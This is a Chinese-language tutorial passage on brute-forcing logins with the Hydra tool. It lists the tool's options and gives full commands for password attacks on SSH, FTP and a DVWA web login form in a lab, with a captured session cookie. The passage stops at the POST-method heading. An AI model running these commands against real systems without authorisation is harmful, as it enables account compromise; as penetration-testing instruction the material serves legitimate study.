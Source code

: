 · **-C  <FILE>：**使用冒号分割格式，例如 “登录名: 密码” 来代替 -L/-P 参数

· **-M  <FILE>：**指定目标列表文件一行一条

· **-o  <FILE>：**指定结果输出文件

· **-f ：**在使用 - M 参数以后，找到第一对登录名或者密码的时候中止破解

· **-t <TASKS>：**同时运行的线程数，默认为 16

· **-w <TIME>：**设置最大超时的时间，单位秒，默认是 30s

· **-v / -V：**显示详细过程

· **server：**目标 ip

· **service：**指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http[s]-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh2 smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp 等等

· **OPT：**可选项

**破解 SSH**

hydra -L user.txt -P passwd.txt -o ssh.txt -vV -t 5 10.96.10.252 ssh   _#-L 指定用户字典 -P 指定密码字典  -o 把成功的输出到 ssh.txt 文件 -vV 显示详细信息_

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29pCibVKejNTaujDoD4AxMeicahuicAa6GqmXm3GsLuaHqiaLZesDy4AnS1g/640?wx_fmt=png)

**破解 FTP**

hydra -L user.txt -P passwd.txt -o ftp.txt -t 5 -vV 10.96.10.208 ftp _#-L 指定用户名列表 -P 指定密码字典 -o 把爆破的输出到文件 -t 指定线程 -vV 显示详细信息_

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29eDXicaal2m66phJPb3PdTylXJ9oAH378vjNITYpUAhUUkythDGibYEibQ/640?wx_fmt=png)

**破解 HTTP**  

我们拿 DVWA 测试破解 HTTP，破解 HTTP，需要分析数据包的提交格式

**GET 方式：**

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29ZHVAJcF8tnAz2JC3w0hicKL5VoCKraSJob8iakR0Mja5hLmzc5NSsRcA/640?wx_fmt=png)

分析数据包，我们得到下面的命令  

hydra -L user.txt -P passwd.txt -o http_get.txt -vV 10.96.10.208 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect:H=Cookie: PHPSESSID=nvvrgk2f84qhnh43cm28pt42n6; security=low" -t 3

#前面那些参数就不说了，主要说一下引号里面的数据 /vulnerabilities/brute/ 代表请求目录，用：分隔参数，^USER^ 和 ^PASS^ 代表是攻击载荷，F= 后面是代表密码错误时的关键字符串 ，H 后面是 cookie 信息

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29uR3Tv66KBcyxfwv4zGXfJrnr53CicfChFlBApBWc0uZibnH6mh2NSAmw/640?wx_fmt=png)

**POST 方式：** 

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2dBUoKpVDZeDHDHqxibdWz29xuCibeTOXU1V7hQw2ScJu2TOFgQurf7qMA2gH8rAd9LDyibdFbT2xycA/640?wx_fmt=png)
